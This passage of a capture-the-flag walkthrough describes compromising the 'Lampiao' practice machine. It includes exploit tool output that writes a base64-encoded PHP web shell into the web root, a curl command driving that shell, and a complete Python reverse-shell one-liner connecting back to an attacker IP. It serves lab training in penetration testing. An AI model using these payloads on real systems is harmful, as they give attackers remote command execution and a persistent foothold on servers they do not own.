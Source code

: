 ```text
--------------------------------------------------------------------------------
[*] Testing: Code Execution   (Method: name)
[i] Payload: echo BSQHXQLP
[+] Result : BSQHXQLP
[+] Good News Everyone! Target seems to be exploitable (Code execution)! w00hooOO!
--------------------------------------------------------------------------------
[*] Testing: Existing file   (http://192.168.229.48:1898/shell.php)
[i] Response: HTTP 404 // Size: 5
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
[*] Testing: Writing To Web Root   (./)
[i] Payload: echo PD9waHAgaWYoIGlzc2V0KCAkX1JFUVVFU1RbJ2MnXSApICkgeyBzeXN0ZW0oICRfUkVRVUVTVFsnYyddIC4gJyAyPiYxJyApOyB9 | base64 -d | tee shell.php
[+] Result : <?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
[+] Very Good News Everyone! Wrote to the web root! Waayheeeey!!!
--------------------------------------------------------------------------------
[i] Fake PHP shell:   curl 'http://192.168.229.48:1898/shell.php' -d 'c=hostname'
lampiao>> whoami
www-data
lampiao>>
```

Lets head to https://www.revshells.com/ so we can get a reverse shell one-liner and get a proper shell, rather than this pseudo-shell.

I'll grab the Python reverse shell:

```text
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.158",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

And simply set up a NetCat listener and run the command in the pseudo-shell:

![shell.png](../assets/lampiao_assets/shell.png)

We can now grab the local.txt flag from user tiago's home directory:

![user_flag.png](../assets/lampiao_assets/user_flag.png)
